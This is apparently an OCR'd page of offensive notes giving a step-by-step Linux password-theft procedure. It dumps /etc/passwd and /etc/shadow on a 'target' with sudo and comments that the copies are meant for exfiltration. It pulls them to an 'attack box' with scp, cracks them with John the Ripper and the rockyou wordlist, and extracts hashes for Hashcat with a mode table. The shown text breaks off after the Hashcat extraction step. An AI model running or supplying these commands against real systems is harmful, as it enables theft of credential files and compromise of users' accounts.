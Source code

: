## 1) On the target: dump passwd and shadow
Requires root or sudo.
```bash
# Create protected copies you can exfiltrate
sudo sh -c 'umask 077; cat /etc/passwd > /tmp/passwd && cat /etc/shadow > /tmp/shadow && ls -l /tmp/passwd /tmp/shadow'
```

## 2) Transfer to your attack box
From your attack box:
```bash
# Using scp (adjust user/host)
scp USER@TARGET:/tmp/passwd .
scp USER@TARGET:/tmp/shadow .
```

## 3A) Crack with John the Ripper (recommended for most Linux hashes)
```bash
# Prepare: combine passwd + shadow
unshadow passwd shadow > unshadowed.txt

# Quick wordlist attack
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt

# Optional: try formats explicitly if needed (auto-detect usually works)
# john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
# john --format=md5crypt    --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
# john --format=sha256crypt --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt

# Optional: add mangling rules to improve success
john --wordlist=/usr/share/wordlists/rockyou.txt --rules=Jumbo unshadowed.txt

# Check progress / cracked creds
john --status
john --show unshadowed.txt
```

Common file locations:
- John potfile: ~/.john/john.pot

## 3B) Crack with Hashcat (extract only the hashes)
Identify hash type by the prefix in the hash field:
- $6$ -> sha512crypt (Hashcat -m 1800)
- $5$ -> sha256crypt (Hashcat -m 7400)
- $1$ -> md5crypt    (Hashcat -m 500)
- $2a$, $2b$, $2y$ -> bcrypt (Hashcat -m 3200)
- $y$ -> yescrypt (use John; Hashcat mode depends on version, check: hashcat -h | grep -i yescrypt)

Prepare the hash list:
```bash
# Extract just the hash field (field 2) from shadow
awk -F: 'length($2)>0 && $2 !~ /^[*!]$/ {print $2}' shadow > hashes.txt

# Inspect a few to decide mode
head -n 5 hashes.txt
```
